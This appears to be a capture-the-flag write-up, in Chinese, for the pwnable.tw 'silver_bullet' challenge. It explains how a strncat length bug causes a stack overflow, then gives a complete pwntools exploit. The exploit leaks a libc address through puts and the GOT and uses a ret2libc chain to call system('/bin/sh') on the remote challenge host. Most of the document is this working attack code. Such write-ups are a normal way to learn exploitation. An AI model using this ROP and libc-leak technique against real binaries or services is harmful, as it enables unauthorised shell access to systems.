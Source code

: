 # poc

```
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

> `strncat`逻辑漏洞 -> 栈溢出 -> 泄漏libc -> `system('/bin/sh\x00')`

在`power_up()`中`strncat`会把组合成的串最后添加一个`\x00`，而`main`里紧邻字符串`dest`的变量存的是`strlen(dest)`，因此可以覆盖该变量为`0`，从而重新计算长度后`strlen(dest) = strlen(src)`，再次`power_up()`可造成栈溢出。由于只有`beat()`返回值为`1`时`main()`正常返回，因此第二次`power_up()`考虑赋较大的值如`\xff\xff\xff`。

之后构造栈如下泄漏libc。

```
---------------
|     got     |
---------------
|    main()   |
---------------
| plt['puts'] |
---------------
|  0xdeadbeef |
---------------
|  0xffffff01 |
---------------
```

同理再来一轮，栈如下执行`system('/bin/sh\x00')`。

```
---------------
|    binsh    |
---------------
|    main()   |
---------------
|   system()  |
---------------
|  0xdeadbeef |
---------------
|  0xffffff01 |
---------------
```

# exp

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

DEBUG = 0

f = ELF('silver_bullet.dms')

if DEBUG:
    p = process('silver_bullet.dms')
    gdb.attach(p)
    e = ELF('libc-2.23.so')
else:
    p = remote('chall.pwnable.tw', 10103)
    e = ELF('libc_32.so.6')

def create(s):
    p.recvuntil(':')
    p.send('1')
    p.recvuntil(':')
    p.send(s)
    p.recvuntil('!')

def power(s):
    p.recvuntil(':')
    p.send('2')
    p.recvuntil(':')
    p.send(s)
    p.recvuntil('!\n')

def beat():
    p.send('3')
    p.recvuntil('!!\n')

def finish():
    p.send('4')
    p.recvuntil('!')

# r1
pad = 0xdeadbeef
ret = 0x08048954 # once again

create('a' * 47)
power('a')
power('\xff' * 3 + p32(pad) + p32(f.plt['puts']) + p32(ret) + p32(f.got['printf']))
beat()

printf_addr = u32(p.recvuntil('\n')[:4])
libc_addr = printf_addr - e.symbols['printf']
system_addr = libc_addr + e.symbols['system']

# r2

binsh_addr = libc_addr + list(e.search('/bin/sh\x00'))[0]

create('a' * 47)
power('a')
power('\xff' * 3 + p32(pad) + p32(system_addr) + p32(ret) + p32(binsh_addr))
beat()

p.interactive()
```
